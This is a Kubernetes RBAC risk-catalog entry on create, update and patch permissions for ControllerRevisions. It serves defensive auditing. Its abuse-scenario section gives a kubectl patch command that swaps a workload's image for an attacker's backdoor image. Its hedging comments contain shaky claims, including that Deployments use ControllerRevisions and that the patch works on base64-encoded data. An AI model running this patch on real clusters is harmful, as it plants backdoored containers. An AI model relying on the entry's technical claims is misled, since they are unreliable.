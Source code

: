 ```yaml
---
id: 1085
title: "Create/Update ControllerRevisions (Potential Tampering)"
description: "Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes."
category: Tampering
risk_level: RiskLevelMedium
date: ""
---
```


## Overview

| Field                   | Value                                                                                             |
| ----------------------- | ------------------------------------------------------------------------------------------------- |
| ID                      | 1085                                                                                              |
| Name                    | Create/Update ControllerRevisions (Potential Tampering)                                           |
| Risk Category           | Tampering                                                                                         |
| Risk Level              | {{< risk Medium >}}                                                                               |
| Role Type               | Role                                                                                              |
| API Groups              | apps                                                                                              |
| Resources               | controllerrevisions                                                                               |
| Risky Verb Combinations | [create] · [update] · [patch]                                                                     |
| Tags                    | {{< tag "ControllerRevisionTampering" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating or updating ControllerRevisions. This could be abused to tamper with the history of workloads like Deployments or StatefulSets, potentially forcing rollbacks to vulnerable versions, manipulating state, or obscuring legitimate changes.

## Abuse Scenarios

1. Create a new ControllerRevision with a malicious image or command.

```bash
# This is complex as ControllerRevisions are usually managed by controllers.
# Direct creation/patching is not common and requires careful crafting of the 'data' field.
# Example: Create a new revision for a deployment, pointing to a malicious image.
# This would typically be done by modifying the Deployment/StatefulSet itself.
# A direct kubectl command to create a *malicious* ControllerRevision is not practical.
# Instead, focus on the ability to manipulate existing ones.
# To demonstrate, one might try to patch an existing revision's data (which is base64 encoded).
# This is highly advanced and not a simple kubectl command.
# Let's provide a generic patch example, noting the complexity.
kubectl patch controllerrevision <revision-name> -n <namespace> --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "<malicious-image>"}]'
# Note: The 'data' field in ControllerRevision is base64 encoded. This command is illustrative.
# Example: kubectl patch controllerrevision my-app-deployment-12345 -n default --type='json' -p='[{"op": "replace", "path": "/data/spec/template/spec/containers/0/image", "value": "attacker/backdoor"}]'

```
